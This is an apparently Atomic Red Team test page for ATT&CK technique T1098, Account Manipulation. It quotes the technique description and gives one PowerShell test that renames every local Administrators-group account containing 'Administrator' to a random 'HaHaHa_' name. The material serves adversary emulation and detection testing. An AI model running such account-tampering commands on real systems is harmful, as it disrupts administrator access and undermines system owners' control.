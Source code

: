 # T1098 - Account Manipulation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.

### Exchange Email Account Takeover

The Add-MailboxPermission PowerShell cmdlet, available in on-premises Exchange and in the cloud-based service Office 365, adds permissions to a mailbox.(Citation: Microsoft - Add-MailboxPermission) This command can be run, given adequate permissions, to further access granted to certain user accounts. This may be used in persistent threat incidents as well as BEC (Business Email Compromise) incidents where an adversary can assign more access rights to the accounts they wish to compromise. This may further enable use of additional techniques for gaining access to systems. For example, compromised business accounts are often used to send messages to other accounts in the network of the target business while creating inbox rules so the messages evade spam/phishing detection mechanisms.(Citation: Bienstock, D. - Defending O365 - 2019)

### Azure AD

In Azure, an adversary can set a second password for Service Principals, facilitating persistence.(Citation: Blue Cloud of Death)

### AWS

AWS policies allow trust between accounts by simply identifying the account name. It is then up to the trusted account to only allow the correct roles to have access.(Citation: Summit Route Advanced AWS policy auditing)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Admin Account Manipulate](#atomic-test-1---admin-account-manipulate)


<br/>

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```






<br/>

